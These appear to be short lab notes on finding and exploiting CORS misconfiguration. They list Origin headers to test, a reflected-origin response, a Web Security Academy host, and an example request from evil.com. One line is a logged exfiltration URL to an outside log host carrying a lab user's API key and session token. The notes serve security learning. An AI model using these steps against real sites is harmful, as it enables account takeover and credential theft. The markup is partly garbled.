<h1>CORS Misconfiguration</h1>
<h3>Impact:</h3>
<p>Api token, email, password, and other types of sensitive data exposure, could lead in account takeover.</p>
<4>Headers to test:</4>
<hr>
<code>Origin: https://example.com</code>
o
<code>Origin: http://example.com</code>

<p>Response:</p>
<code>Access-Control-Allow-Origin: https://example.com</code>

Origin: https://store.ac8b1f971f3a924fc04d162000e40010.web-security-academy.net
Access-Control-Allow-Origin: https://store.ac8b1f971f3a924fc04d162000e40010.web-security-academy.net

<p>CORS vulnerability with trusted null origin</p>
<p>-Go to console.log, and you must see:</p>
<p>https://angeljuanma.github.io/log?key={ "username": "wiener", "email": "", "apikey": "ILmCsS4WvD12NbFLxkHaUt7PnL3cFDzU", "sessions": [ "mWXTjX7lmBUZlRJ9TPWqfN7FxBggUFKg" ] }</p>

<p>This will store the accout detail.</p>
```powershell
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: https://evil.com
Cookie: sessionid=... 
```
